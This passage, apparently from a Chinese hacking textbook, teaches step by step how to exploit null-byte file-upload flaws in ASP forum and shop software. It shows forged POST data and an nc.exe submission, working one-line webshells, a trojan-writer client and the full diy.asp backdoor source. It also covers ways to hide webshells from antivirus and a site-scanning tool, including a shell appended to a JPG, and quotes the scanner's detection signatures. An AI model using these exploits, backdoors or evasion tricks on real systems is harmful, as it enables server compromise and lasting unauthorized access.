<input type="hidden" name="act" value="upload">
<input type="file" name="file1">
<input type="hidden" name="fname">
<input type="submit" name="Submit" value="上传" onclick="fname.value=file1.value,parent.document.forms[0].Submit.disabled=true,parent.document.forms[0].Submit2.disabled=true;">
</form>
```

仔细看 `<input type="submit" name="Submit" value="上传" onclick="fname.value=file1.value,parent.document.forms[0].Submit.disabled=true,parent.document.forms[0].Submit2.disabled=true;">`，可以发现程序是提取 `file1` 表单和 `fname` 表单中的值来做判断的。也就是说直接从页面递交我们的 ASP 文件也是行不通了。但是，如果是我们自己构造数据包的话就不一样了。方法就是自己构造数据包来达到欺骗的目的，将提交的 `file1` 表单和 `fname` 表单项的值改成合法的文件名称，这样就可以绕过文件类型的检测了。

当然，主要的问题不在这里。如果我们只要上传那些代码的话，我们完全可以直接改文件名就好了。我们的目的是要让我们上传的文件名改成 ASP，这样我们才可以利用。关键就在这一句了：`formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt`。这句话将一段字符串合并起来，我们能改的就是 `formPath` 这个参数。这里要告诉大家的是，在计算机中检测字符串的关键就是看是否碰到 `\0` 字符，如果是，则认为字符串结束了。也就是说我们在构造上传文件保存路径时，只要欺骗计算机让它认为类似 “uploadface\zwell.asp” 这样的路径参数已经结束了，这样后面一连串的时间字符串我们都可以不要，从而达到直接将文件保存为我们定义的文件名的目的。因此，我们要做的是在构造的数据包中，将表单中的 `filepath` 改成类似 `uploadface\zwell.asp\0` 的字符串，然后发送出去就行了。

原理大家现在应该都明白了，这里再整理一下。因为参数 `formPath` 是由我们控制的，所以可以修改它的值。所以这里我们可以构造假的数据包来欺骗计算机，因为计算机在检测字符串结束时采用的是看是否遇到了 `\0` 字符。所以我们在构造 `formPath` 参数时，在其最后加上 `\0` 字符。这个时候计算机就以为字符串结束了，而后面的数据全部丢掉，从而达到欺骗的目的。而我们只要把 `formPath` 参数换成一个木马的地址并在后面加上 `\0` 字符就可以搞定了，不过需要注意的是字符的大小问题。

首先我们来看看如何利用工具来对这个上传漏洞进行利用。这里给大家介绍桂林老兵的上传工具，如图 7-36 所示。

图 7-36 上传利用工具

这里给大家介绍下它的用法。Action 中输入存在上传漏洞文件的 URL，例如 `http://www.xxx.com/bbs/UpFile.asp`；UpPath 里第一个文本框中的 FilePath 即为表单中的 FilePath，也就是上传路径，等号后面填的是上传到对方服务器上的木马的名称 `/shell.asp`；输入一个 WEB 程序允许上传的类型，文本框中默认 JPG 就可以了（一般网站都允许上传 JPG 图片文件）；File 里第一个文本框中的 File1 即是表单中的 File1，等号后面填写所要在本机上传的木马路径；Cookies 中填上我们用抓取数据包工具如 WsockExpert 抓取的 Cookies 值，记住最好是你在系统中注册后的 Cookies 值。

我们就用它来入侵动网论坛。这里 Action 填入 `http://www.***.com/bbs/upfile.asp`；UpPath 第一个文本框填入：`filepath`；第二个填入：`/shell.asp`（你也可以写 `/bbs/shell.asp`，这样上传成功后就传到 `/bbs` 目录下了）；输入一个 WEB 程序允许上传的类型，文本框中默认 JPG 就好了；File 第一个文本框输入：`file1`；第二个填入：`E:\木马\asp\shell.asp`（这个 ASP 木马是在自己机器上的路径，点后面的文件打开图标浏览找到 ASP 木马即可）。Cookies 这里不用抓包了，因为这里的上传根本不检测 Cookie。没有它会报错。如果都填写好了直接按“Submit”按键提交。提交之后返回提交成功，如图 7-37 所示。

图 7-37 木马上传成功

上传成功后我们直接在 URL 地址栏内填上木马的网址，打开之后就得到一个小马了，如图 7-38 所示。接下来我们就是再写入一个功能更为强大的木马进去。

图 7-38 得到一个小马

当然，我们不应该只局限于工具的利用。如果想要真正提高自己的水平，还应当自己动手，利用手工来进行攻击。前面我就已经说了，上面的这个漏洞不仅仅存在于动网，其他很多系统也同样存在。但是有一点大家要明白，虽然存在于不同的系统，但是它们的利用方法都是一样的，不管是工具还是手工。

对于手工攻击，我就用动感商务这个系统存在的上传漏洞来作为例子讲解。动感商务的上传文件是 `upfile_flash.asp`，它出现漏洞的代码如下所示：

```asp
if upload.form("act")="uploadfile" then
filepath=trim(upload.form("filepath")) '文件上传路径
filelx=trim(upload.form("filelx")) '文件扩展名
.......................
此处省略的是扩展名过滤过程
.......................
randomize
ranNum=int(90000*rnd)+10000
filename=filepath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt '文件名为 filepath 文件路径+按日期生成的名称+扩展名
.......................
file.SaveToFile Server.mappath(FileName) '保存文件
```

大家可以看到这段代码和动网的是一模一样，所以它们的利用方法也是一样的。下面开始我们的手工入侵。我们知道虽然这段代码对扩展名经过了严格审核，但保存文件的路径 `filepath` 并没有过滤，只要我们动手修改一下 `filepath` 值，就可以把 ASP 木马传到服务器中了。下面再来认识一下 `Upload_flash.asp`（图片上传）页面，如图 7-39 所示（该图片上传本是管理员的专用页，但因为文件内未加入权限设置，以致于来宾用户也能打开此页并上传图片，这个漏洞只限于动感商务）。

点“浏览”选择一个 JPG 图片上传，返回的却是“该文件类型不能上传！”，为什么呢？这是因为 `Upload_flash.asp` 后缺少一些参数。从后台的“图片上传”窗口内得到 `upload_flash.asp` 所带参数，这样完整的“图片上传”地址就是：

`http://127.0.0.1/9911shop/upload_flash.asp?formname=myform&editname=shoppic&uppath=shoppic&filelx=jpg`

其中的 `uppath` 是上传文件的保存路径，`filelx` 是允许上传的扩展名。有了正确的 `Upload_flash.asp` 地址，接下来就可以实施我们的计划了。

图 7-39 上传页面

- 1. 把经典的后门 ASP 木马 `diy.asp` 更改扩展名为 `jpg`。
- 2. 启动 WinSock Expert 软件，监听 IEXPLORE 中的“图片上传”页面。
- 3. 返回到“图片上传”窗口，选择 `newmm.jpg` 并上传。
- 4. 再次切换到 WinSock 窗口，查看 Post 项，如图 7-40 所示，其中的 `filepath` 就是这个上传系统的软肋，复制 Post 并提交内容两项数据到 `dg.txt` 中。

图 7-40 用 WinSock 截流数据

- 5. 打开 `dg.txt`，修改 `filepath` 值“`shoppic/`”为“`shoppic/jm.asp*`”（`*` 代表的是一个空格，也可更改 `shoppic` 为另一个文件夹名），再按照增加的字符个数修改 `Content-Length:` 值，如果数据没有修改的话，就无法成功，这是利用这个漏洞的关键之一，如图 7-41 所示。

图 7-41 修改数据

- 6. 前面就告诉了大家，一定要在 `formPath` 参数后添加一个 `\0` 字符。这样当计算机遇到这个字符后就以为字符串结束了，使得计算机不再读取后面的数据，从而达到欺骗计算机的目的。而接下来我们就要做这最关键的一步。记得前面我们在 `shoppic/jm.asp` 后添加了一个空格，当初之所以添加一个空格就是为了在这里把空格修改成 `\0` 字符。要修改这个数据我们要利用到 WinHex 这个十六进制编辑工具，它是一个非常优秀的编辑工具，如果对它不熟悉的话，可以去网上找一下它的用法说明。我们用 WinHex 打开 `dg.txt`，找到 “`shoppic/jm.asp*`”，将空格的 16 进制 “20” 改为 “00”。这里还要解释一下，空格的十六进制是 20，而 `\0` 字符的十六进制是 00。所以我们把 20 替换成 00，其实就相当于把空格换成了 `\0` 字符。
- 7. 最后我们利用 NC 提交数据。启动 CMD 程序，CD 目录到 NC 所在目录。为了简化命令，在输命令之前将 `dg.txt` 和 `nc.exe` 放至同一目录中。输入如下命令：`nc.exe -vv 127.0.0.1 80 <dg.txt`，其中 `-vv` 是显示详细信息，`127.0.0.1` 是 WEB 网站地址，`80` 是 WEB 端口，其后的 `<dg.txt` 则是向 WEB 网站提交 `dg.txt`。执行后的结果如图 7-42 所示，成功上传。

图 7-42 上传成功

- 8. 最后把“图片上传”窗口地址栏中的 `upload_flash.asp` 及其参数替换为上传后的路径 `shoppic/jm.asp`，回车执行，如图 7-43 所示，一个简易的 ASP 木马便出现在我们面前了。

图 7-43 得到一个后门的 ASP 木马

这就是这个上传漏洞利用的全过程，重点要弄清楚两点：一是我们修改了 `formPath` 参数的数据后，记得要在数据包中添加我们增加的数据数目；二是记得要在 `formPath` 参数的最后有一个 `\0` 字符。理解了这两点，那么这个上传漏洞的利用过程就全部理解了。

对于上传漏洞的分析到这里就结束了，上面的几种漏洞基本上概括了目前已知的大部分，就算有一些表现的形式不一样，但是它们本质上都是一样的。只要掌握了它出现漏洞的本质，那么不管它的形式怎么变化，都是可以轻易发现的。俗话说得好，万变不离其宗。

## 7.6 ASP木马技术初探

在我们入侵 ASP 网站的时候，一个好的木马是肯定要的，因为它们是获得 webshell 的工具。所以它在我们 ASP 脚本攻防中扮演着非常重要的角色。那么你是否想过自己编写一个 ASP 木马呢？而本节我就介绍一些 ASP 木马编写方面的知识，希望通过这些分析为大家掀开 ASP 木马的神秘面纱。

#### 7.6.1 一句话木马解析

前面我们已经多次使用到一句话木马了，利用它我们可以很快地得到一个 webshell。下面我们就来解析一句话木马到底是怎么回事。我们知道一句话木马分为服务端和客户端两个部分。

ASP 的一句话木马的服务端可以是：`<%execute request("value")%>`、`<%eval request("value")%>`、`<%On Error Resume Next execute request("value")%>`、`<script language=VBScript runat=server>execute request("value")</Script>` 等等。现在大家都有了 ASP 基础，应该可以看出不管它是怎么变化，都含有 `request` 对象。所以一句话木马服务端的作用就是获取客户端提交的数据，而我们客户端所提交的数据就是一个具有完整功能的 ASP 木马。所以我们将一句话木马服务端插入到服务器中的文件后，只要我们知道 `request` 对象中的 `value` 值是多少，那么我们就可以请求服务器中的这个文件，并通过 `value` 值识别出服务端所要接收客户端的数据。

这样，我们提交的木马代码就通过这个服务端成功地插入到了服务器中，使得木马存在于网站中，从而获得 webshell。服务端非常简单，就是要接受我们客户端所提交的数据。那么我们再来看看客户端的代码，首先看看客户端的页面，如图 7-44 所示。

图 7-44 一句话木马客户端

可以看到客户端有两个输入框存在，上面的输入框是为了方便我们修改数据而设置的，而下面的输入框就是填入我们的 ASP 木马的地方。下面来看看源代码，如下所示：

```html
<form action=http://www.gzyecheng.com/zhishi/200582432342.asp method=post>
<textarea name=value cols=120 rows=10 width=45>
set lP=server.createObject("Adodb.Stream")
lP.Open
lP.Type=2
lP.CharSet="gb2312"
lP.writetext request("value")
lP.SaveToFile server.mappath("wei.asp"),2
lP.Close
set lP=nothing
response.redirect "wei.asp"
</textarea>
<textarea name=joeying cols=120 rows=10 width=45>填入生成木马的内容
</textarea><BR><center><br>
<input type=submit value=提交>
```

下面来给大家详细解释一下上面的代码。

```html
<form
action=http://cjy.xjife.edu.cn/news/ebook/db/ebook.asp
// "action="后面是需要修改的以 asp 命名的数据库的提交地址 method=post>
// 这个标签的意思是建立一个表单，以 post 方式提交给连接
http://cjy.xjife.edu.cn/news/ebook/db/ebook.asp 处理
<textarea name=value cols=120 rows=10 width=45>
// 这里的 value 值根据服务端 <%execute request("value")%> 中 value 而设定，可以自行修改
// 成 <%execute request("p")%>，相应这里的 value 值也必须改为 p
set lP=server.createObject("Adodb.Stream")
```

```asp
// 建立流对象，有了对象才可以使用它固有的属性和方法
lP.Open      // 打开
lP.Type=2    // 以文本方式
lP.CharSet="gb2312"      // 字符集
lP.writetext request("value")
// 取得木马内容，参数 value 可以自己定义，但必须和下面的 name=value 相对应
lP.SaveToFile server.mappath("wei.asp"),2
// 将木马内容以覆盖文件的方式写入 wei.asp，2 就是以覆盖的方式，这里的 wei.asp 也是
// 可以自己定义的，如定义成 1.asp，但和下面的 response.redirect "wei.asp" 中 wei.asp 保持一致
lP.Close // 关闭对象
set lP=nothing // 释放对象
response.redirect "wei.asp"
// 转向生成的 wei.asp，和上面的 wei.asp 相对应，也就是你熟悉的 asp 木马登录界面
</textarea>
// 这段程序的功能：利用插入到数据库文件的 <%execute request("value")%> 这段代码执行
// 第一个 textarea 中的内容，并将添加的木马内容写入和指向 wei.asp，这样就相当于在服务器上
// 建立了个 asp 木马文件，这样就可以取得 webshell 了
<textarea name=value cols=120 rows=10 width=45>填入生成木马的内容
</textarea><BR><center><br>
// 这段标签是你用来添加木马内容用的
<input type=submit value=提交>
// 提交程序的主要框架是
<form>
<textarea></textarea>
// 取得木马内容并用无组件上传技术在服务器端创建 asp 木马文件并显示
<textarea></textarea>
// 添加木马内容用的
</form>
```

这样，通过上面的客户端和服务端我们就可以顺利地把 ASP 木马提交到服务器中，从而获得 webshell。虽然现在网上有很多一句话木马客户端的加强版，但是它们和上面还是差不多，只是变得更加方便，程序并无太大变化。

### 7.6.2 DIY.ASP小马分析

在前面介绍上传漏洞的时候就提到过它，因为这个小木马不存在和一般完整功能（如海洋顶端）木马的关键字，所以它在对抗一些检查文件内容的上传系统时非常有用。而且这个木马也是一个非常难得的后门。它的作用和一句话木马很相似，但是它用起来比较稳定，不容易造成服务器死机，而一句话木马有的时候就会造成服务器瘫痪等情况的发生。

所以，下面就为大家介绍这个非常优秀的 ASP 后门。相信通过对它的分析，你一定能够对大部分 ASP 后门木马有比较深刻的了解。`diy.asp` 插入网站后运行的界面如图 7-45 所示。

图 7-45 diy.asp 木马界面

使用这个木马很简单，在输入保存路径中我们输入所要保存的大马的路径，而在输入文件的内容中，我们输入大马的代码就可以了，然后点击保存。保存成功之后，我们利用自己输入的保存路径打开大马，这样就得到了一个 webshell 了。下面我们来看看它的核心源代码，如下所示：

```asp
<%@ LANGUAGE = VBScript %>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>diy.asp</title>
<% dim objFSO,fdata,objCountFile %>
<% on error resume next %>
<% Set objFSO = Server.CreateObject("Scripting.FileSystemObject") %>
<% if Trim(request("syfdpath"))<>"" then %>
<% fdata = request("cyfddata") %>
<% Set objCountFile=objFSO.CreateTextFile(request("syfdpath"),True) %>
<% objCountFile.Write fdata %>
<% if err =0 then response.write "<font color=red>save Success!</font>" %>
<% err.clear %>
<% end if %>
<% objCountFile.Close %>
<% Set objCountFile=Nothing %>
<% Set objFSO = Nothing %>
<%response.write "<br>"%>
<%response.write "本文件绝对路径"%>
<%=server.mappath(request.servervariables("script_name"))%>
<%response.write "<br>"%>
<form method=post>
<input type=text name=syfdpath value=<%=server.mappath("diy.asp")%> size=60><br>
保存路径
<textarea name=cyfddata cols=80 rows=10 width=32></textarea>
<input type=submit value="保存">
</form>
```

下面简单解释一下它的代码。

dim objFSO, fdata, objCountFile 定义了三个变量 objFSO、fdata、objCountFile。  
on error resume next 的意思就是出错了就执行下一条语句。  
Set objFSO = Server.CreateObject("Scripting.FileSystemObject") 就是把 objFSO 设置为一个 FSO 对象。

```asp
<% if Trim(request("syfdpath"))<>"" then %>
<% fdata = request("cyfddata") %>
```

先接收变量 syfdpath 的值并把它两边的空格过滤，然后检测它是否为空，如果不等于空就把 cyfddata 变量的数据赋给 fdata。

```asp
<% Set objCountFile=objFSO.CreateTextFile(request("syfdpath"),True) %>
<% objCountFile.Write fdata %>
```

设定 objCountFile 为一个 textstream 对象变量，并把 fdata 的内容写进 syfdpath 中所记载的路径内。

```asp
<% if err =0 then response.write "<font color=red>save Success!</font>" %>
<% err.clear %>
<% end if %>
<% objCountFile.Close %>
<% Set objCountFile=Nothing %>
<% Set objFSO = Nothing %>
```

如果没有出错就用红色字体输出 save Success，并关闭 objCountFile，同时释放 objCountFile 和 objFSO。

```asp
<%response.write "<br>"%>
<%response.write "本文件绝对路径"%>
<%=server.mappath(request.servervariables("script_name"))%>
<%response.write "<br>"%>
<form method=post>
<input type=text name=syfdpath value=<%=server.mappath("diy.asp")%> size=60><br>
保存路径
<textarea name=cyfddata cols=80 rows=10 width=32></textarea>
<input type=submit value="保存">
</form>
```

上面的这些就是用 response 输出的 HTML 代码了，这里需要注意的就是变量 syfdpath，它是我们输入的路径，而变量 cyfddata 则是我们输入木马内容的变量。

我们再来整理一下上面的思路：首先在客户端存在两个变量，它们分别为 syfdpath 和 cyfddata。其中 syfdpath 是用来保存我们输入的路径，而 cyfddata 是用来保存我们输入的木马的数据。当我们提交数据到了服务器端后，服务器首先检查路径是否为空，如果不为空就接收变量 cyfddata 的数据，即我们输入的木马。并且同时利用 syfdpath 变量所提供的路径创建我们所提交的文件，例如我们提交的路径为 D:\\WEB\\shell.asp，那么系统就会在 D:\\WEB\\ 路径下创建 shell.asp 文件。并同时把接收变量 cyfddata 的数据写入到提交路径下的那个文件中去。如果写入成功的话，就提示成功，否则就出错。

这样，通过在我们指定目录下创建指定的文件，并把指定的内容写入指定的文件中，所以我们只需要在文件中写入一个木马代码，那么这个文件就会变成一个 webshell 了。

## 7.6.3 ASP木马免杀

很多情况下，虽然我们获得了 webshell，但是一般服务器上几乎都会装杀毒软件，而且现在还有很多网站使用了雷客图之类的工具，它们都可以对我们上传的木马进行查杀。所以很多情况下，我们一上传木马就被对方的杀毒软件或雷客图给查出来了，结果就是木马被删除了。所以我们一般在上传木马之前，还要对木马进行免杀处理，目的就是让杀毒软件、雷客图之类的工具无法识别出木马，使得木马可以在网站中一直生存下来。对于 ASP 木马免杀方面，我自己就不发表过多意见了，因为萍水相逢对 ASP 木马的免杀可以说是相当有经验。所以本书引用由萍水相逢写的一篇《对 ASP 木马免杀的研究》，该文章讲得非常全面和细致，对我们学习 ASP 木马免杀相当有引导性作用，文章内容如下所示：

##### 对 ASP 木马免杀的研究

现在的杀毒软件越来越厉害了，国内的瑞星、江民、金山，国外的卡巴、MCAFEE、诺顿，就这几个软件，已把我们的“马儿”无情地挡在了门外。前不久，又出来一个叫“雷客图 ASP 站长安全助手”的工具，利用此工具再配合那几种杀毒，可以说，如此一来，这扇门就更坚固了，就相当于给它加了一把大锁，要想进去，真的不容易啊！所以，写此文的目的就是让我们用巧妙的方法打开这扇门，通向黑客的顶峰！

###### 一：常规思路下的免杀

####### 一句话被杀

通常，我们研究一样东西，都会从常规思路出发，当发现此路不通，我们才不得不另辟蹊径。首先看看我们的一句话木马，以下是我们最常用的三种：

- 1. 冰狐浪子一句话服务端（存为 `bin.asp`）
- 2. 蓝屏大哥一句话（存为 `nan.asp`）
- 3. LAKE2 一句话服务端（存为 `lake.asp`）

```asp
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>try{eval(Request.form('#')+'')}catch(e){}</SCRIPT>
<%Execute(Request.form("#"))%>
<%Eval Request("#")%>
```

将这三个文件放在同一个目录下（我这里使用的目录是 TTFCT），用瑞星、江民、金山、卡巴、MCAFEE、诺顿进行查杀，发现这几个杀毒软件均不杀。不过，不要高兴得太早，我们用“雷客图 ASP 站长安全助手”来查杀一次，启动 IIS，运行“雷客图 ASP 站长安全助手”，进行全站扫描，得到如图 7-46 所示结果：

图 7-46 雷客图查询结果

现在你还能免杀么？只要管理员仔细一看，稍微懂一点 ASP 的就会把我们的后门无情地删掉。

####### 一句话下的免杀

如果说一句话要免杀，我们可以采取以下方法来试验：

- 1、利用数据库插入一句话木马

我们随便新建一个数据库，建立一个表、一个字段，在其中插入一句话木马 `<% eval request("#") %>`，如图 7-47 所示。

图 7-47 插入一句话木马服务端

然后把文件后缀改为 ASP，存为 database.asp，此时用 LAKE2 的客户端进行连接，测试能正常使用，如图 7-48 所示。

图 7-48 将数据库改为 asp 格式

用“雷客图 ASP 站长安全助手”进行查杀，发现同样被杀，如图 7-49 所示。

图 7-49 雷客图依然可以查杀

- 2、利用 UNICODE 精心构造一句话木马

看了 LAKE2 的 ASP 数据库插马小议，有那么一点点想法，抱着试一试的态度看这种所谓对一句话木马的突破，能否过“雷客图 ASP 站长安全助手”。按 LAKE2 的意思就是把 ASP 代码先转化为 Unicode 然后再插入数据库，不过这种转换要精心构造才能成功，于是下了一个 LAKE2 的工具，构造一句话的 Unicode 代码，然后将代码插入数据库中，如图 7-50、图 7-51 所示。

图 7-50 转换成 Unicode  
图 7-51 将转换后的数据插入数据库

将此数据库保存为 Unicode.ASP，用如下一句话客户端进行连接，提交成功。以下一句话客户端代码：

```html
<form action=http://127.0.0.1/ttfct/unicode.asp method=post>
<textarea name="a" cols=120 rows=10 width=45>
set lP=server.createObject("Adodb.Stream")
lP.Open
lP.Type=2
lP.CharSet="gb2312"
lP.writetext request("ttfct")
lP.SaveToFile server.mappath("ttfct.asp"),2
lP.Close
set lP=nothing
response.redirect "ttfct.asp"
</textarea>
<textarea name="ttfct" cols=120 rows=10 width=45>插入生成木马的内容</textarea><BR><center><br>
<input type=submit value=提交>
```

现在用“雷客图 ASP 站长安全助手”查杀，同样被杀，如图 7-52 所示。

图 7-52 依然被查杀

- 3、利用 DBOWENER 下的 LOG 备份来备份一句话

相信大家在入侵过程中，都接触过 DB 下的 LOG 备份。一般情况下，我们备份成功，在浏览器直接访问都会得到如下情况，如图 7-53 所示。

图 7-53 利用备份

这种备份下的一句话当然能成功连接，不过它是否能过那个专杀，测试后我们再次失望，如图 7-54 所示。

图 7-54 依然可以被查杀

- 4、利用微软小漏洞将一句话木马藏于 s.. 文件夹

这个漏洞很早就被人发现了，相信大家也在利用此漏洞隐藏自己的木马了。建立此文件夹的方法是切换到 DOS 下，输入 `md s..\`（提示：删除 S.. 文件夹的方法 `rd s..\ /s`，然后再输入 y 就行了）。下面我们把 bin.asp copy 到 s..\ 文件夹，如图 7-55 所示。

图 7-55 将一句话马隐藏在 s.. 文件夹中

此时我们在浏览器中按以下方式访问 `http://127.0.0.1/ttfct/s../bin.asp`，再利用冰狐浪子的客户端进行连接，成功！如图 7-56 所示。

图 7-56 成功访问

这里再次使用“雷客图 ASP 站长安全助手”进行查杀，呵呵，是不是就成功躲过它了！也许还会有人说，把一句话木马以十六进制的形式加入 GIF 或 JPG 后，然后使用 `<!--#include file="XXX.JPG"-->` 进行调用，可以达到免杀效果。具体行不行，我们测试了就知道。首先，用 UltraEdit-32 打开一个 JPG 文件，然后选择十六进制编辑，将一句话代码 `<% eval request("#")%>` 转化为十六进制复制，然后粘贴到 JPG 文件末尾，如图 7-57 所示：

图 7-57 将一句话木马转换成十六进制并粘贴到 JPG 文件末尾

然后我们将此 JPG 文件保存为 add.jpg，后新建一个 ASP 文件命名为 picture.asp，并在其中加入以下代码：

```html
<!--#include file="add.JPG"-->
```

我们发现，这种方法确实能让我们的马正常运行，但是它却过不了专杀，如图 7-58 所示。

图 7-58 雷客图终于查杀不了了

看看我们得到什么提示：

> eval() 函数可以执行任意 ASP 代码，被一些后门利用。其形式一般是：eval(X)，但是 javascript 代码中也可以使用，有可能是误报。该文件被 picture.asp 文件包含执行。

对于用“雷客图 ASP 站长安全助手”来查 ASP 木马的管理员来说，这种方法更容易引起他的怀疑。本来算是一种不错的隐藏手段，现在在这种专杀的作用下，我们的马都显得那么力不从心。

在邪八还看到两位兄弟的做法，其中一句说：把文件属性改为系统+隐藏后就可以过这个专杀；另一位说：找一个较深的目录，把 ASP 木马放进去就可以过专杀。其实这是不可能的，等会我们分析它的代码就知道了。另外有兄弟提出对一句话使用 ENCODE 加密来过这个工具，其实这都不行，“雷客图 ASP 站长安全助手”会报加密，如图 7-59 所示。

| 特征码 | 描述 |
|---|---|
| (vbscript\|jscript\|javascript).Encode | 似乎脚本被加密了，一般ASP文件是不会加密的[解密] |

图 7-59 对加密的文件说明

到此，在常规思路下，我们得出以下结论：一句话木马能过所有杀毒软件，但是要不被“雷客图 ASP 站长安全助手”所杀，我们暂时只有通过建立 S..\ 文件夹的方法来躲过。虽然能过，可要建立 S..\ 文件夹，我们得拥有系统权限，感觉是不是很不爽。不过没关系，常规下的免杀不成功，并不一定说明对它没有办法。要过它，我们实施下一步方案：有针对性的免杀。

###### 二：针对性下的免杀

如何才能做到有针对性？那就是对那个专杀工具的代码进行研究，观察其运行原理，才能找出其破绽。只有这样，我们可爱的“马儿”才能“起死回生”，才能“在广阔的草原上自由地奔腾”。废话少说，下面请看代码，此处描述用的文件是 admin_scanshell.asp，代码第一部分：

```asp
<%server.ScriptTimeout = 600
DimFileExt = "asp,cer,asa,cdx"   '//指定扫描文件后缀类型
Dim Report, Sun, SumFiles, SumFolders   '//以下是取得扫描路径
    Sun = 0
    SumFiles = 0
    SumFolders = 1
if request.Form("path")="" then
    response.Write("No Hack")
    response.End()
end if
timer1 = timer
if request.Form("path")="\" then
    TmpPath = Server.MapPath("\")
elseif request.Form("path")="." then
```

####### 代码第一部分

```vb
TmpPath = Server.MapPath(".")
else
    TmpPath = Server.MapPath("\\") & "\\" & request.Form("path")
end if
%>
```

以上代码告诉我们：此工具只对四种文件类型“asp,cer,asa,cdx”进行扫描，当然，你可以添加，如后面加上“asp,cer,asa,cdx,aspx,php”等。至于取得扫描路径信息，那不是本文重点。

####### 代码第二部分

```vb
<%
'遍历处理 path 及其子目录所有文件
Sub ShowAllFile(Path)    '定义 SUB 过程
    Set FSO = CreateObject("Scripting.FileSystemObject") '建立 FSO 对象
    if not fso.FolderExists(path) then exit sub '路径不存在则退出 SUB 过程
    Set f = FSO.GetFolder(Path) '提取 PATH 所在文件夹
    Set fc2 = f.files   '取得此文件夹下的所有文件
    For Each myfile in fc2 '循环，获得每一个文件
        If CheckExt(FSO.GetExtensionName(path & "\\" & myfile.name)) Then '使用 CheckExt 函数确定此文件是否在扫描范围内，如果是，则调用 Call 函数对之进行检查
            Call ScanFile(Path & Temp & "\\" & myfile.name, "")
            SumFiles = SumFiles + 1
        End If
    Next
    Set fc = f.SubFolders   '取得二级目录所在文件夹
    For Each f1 in fc   '循环，提取二级目录的每一个文件夹
        ShowAllFile path & "\\" & f1.name   '递归调用
        SumFolders = SumFolders + 1
    Next
    Set FSO = Nothing
End Sub
```

对于第二部分，我作了比较详细的注释。这部分所起的作用就是遍历处理 path 及其子目录所有文件。path 目录是管理员输入的相对路径，程序通过 request 方法获得，如：管理员输入“\\”，则对全站扫描；输入“ttfct”则对目录 ttfct 进行扫描。得到路径后访问并取得每一个文件，再调用 `Call ScanFile()` 函数对指定文件“asp,cer,asa,cdx”进行扫描。所以现在可以说明为什么邪八那两位兄弟的说法不对了。

####### 代码第三部分

```vb
Sub ScanFile(FilePath, InFile)
    If InFile <> "" Then
        Infiles = "<font color=red>该文件被<a"
```

```vb
href="http://" & Request.ServerVariables("server_name") & "/" & URLEncode(InFile) & "
" target=_blank>" & InFile & "</a>文件包含执行</font>"
   End If
   Set FSOs = CreateObject("Scripting.FileSystemObject")
   On Error Resume Next

   Set ofile = fsos.OpenTextFile(FilePath)
   filetxt = LCase(ofile.ReadAll())
   If err Then Exit Sub
   End If
   if len(filetxt)>0 then  '特征码检查
      filetxt = vbcrlf & filetxt
      temp = "<a href=""http://" & Request.ServerVariables("server_name") & "/" & URLEncode(replace(replace(FilePath,server.MapPath("\") & "\","",1,1,1),"\","/")) & """ target=_blank>" & replace(FilePath,server.MapPath("\") & "\","",1,1,1) & "</a>"

      '检查代码中是否存在“wscript.shell”和其对应的 clsid 值，如果存在，则为病毒特征码
      If instr(filetxt, LCase("WScr" & DoMyBest & "ipt.Shell")) Or _
         instr(filetxt, LCase("clsid:72C24DD5-D70A" & DoMyBest & "-438B-8A42-98424B88AFB8")) Then
            Report = Report & "<tr><td>" & temp & "</td><td>WScr" & DoMyBest & "ipt.Shell 或者 clsid:72C24DD5-D70A" & DoMyBest & "-438B-8A42-98424B88AFB8</td><td><font color=red>危险组件，一般被 ASP 木马利用</font>" & infiles & "</td><td>" & GetDateCreate(filepath) & "<br>" & GetDateModify(filepath) & "</td></tr>"
            Sun = Sun + 1
      End If

      '检查代码中是否存在“Shell.Application”和其对应的 clsid 值，如果存在，则为病毒特征码
      If instr(filetxt, LCase("She" & DoMyBest & "ll.Application")) Or _
         instr(filetxt, LCase("clsid:13709620-C27" & DoMyBest & "9-11CE-A49E-444553540000")) Then
            Report = Report & "<tr><td>" & temp & "</td><td>She" & DoMyBest & "ll.Application 或者 clsid:13709620-C27" & DoMyBest & "9-11CE-A49E-444553540000</td><td><font color=red>危险组件，一般被 ASP 木马利用</font>" & infiles & "</td><td>" & GetDateCreate(filepath) & "<br>" & GetDateModify(filepath) & "</td></tr>"
            Sun = Sun + 1
      End If

      '检查是否通过 ENCODE 加密，若加了密，则为病毒特征码
      Set regEx = New RegExp
      regEx.IgnoreCase = True
      regEx.Global = True
      regEx.Pattern = "@\s*LANGUAGE\s*=\s*[\"']?\s*(vbscript|jscript|javascript).encode\b"
      If regEx.Test(filetxt) Then
          Report = Report & "<tr><td>" & temp & "</td><td>(vbscript|jscript|javascript).Encode</td><td><font color=red>似乎脚本被加密了，一般 ASP 文件是不会加密的<a href=plugins/decoder.asp?path=" & server.URLEncode(filepath) & " target=_blank>[解密]</a></font>" & infiles & "</td><td>" & GetDateCreate(filepath) & "<br>" & GetDateModify(filepath) & "</td></tr>"
          Sun = Sun + 1
      End If

      '检查代码中是否存在“eval”函数，若存在，则为病毒特征码
      regEx.Pattern = "\bEv" & "al\b"
      If regEx.Test(filetxt) Then
          Report = Report & "<tr><td>" & temp & "</td><td>Ev" & "al</td><td>e" & "val()函数可以执行任意 ASP 代码，被一些后门利用。其形式一般是：ev" & "al(X)<br>但是 javascript 代码中也可以使用，有可能是误报。" & infiles & "</td><td>" & GetDateCreate(filepath) & "<br>" & GetDateModify(filepath) & "</td></tr>"
          Sun = Sun + 1
      End If

      '检查代码中是否存在“Execute”函数，若存在，则为病毒特征码
      regEx.Pattern = "[^.]\bExe" & "cute\b"
      If regEx.Test(filetxt) Then
          Report = Report & "<tr><td>" & temp & "</td><td>Exec" & "ute</td><td><font color=red>e" & "xecute()函数可以执行任意 ASP 代码，被一些后门利用。其形式一般是：ex" & "ecute(X)</font><br>" & infiles & "</td><td>" & GetDateCreate(filepath) & "<br>" & GetDateModify(filepath) & "</td></tr>"
          Sun = Sun + 1
      End If
      Set regEx = Nothing

      '略去无关代码
      ......
      If Instr(Match.Value, "&") Or Instr(Match.Value, "+") Or Instr(Match.Value, "'''") = 0 Or Instr(Match.Value, "(") <> InStrRev(Match.Value, "(") Then
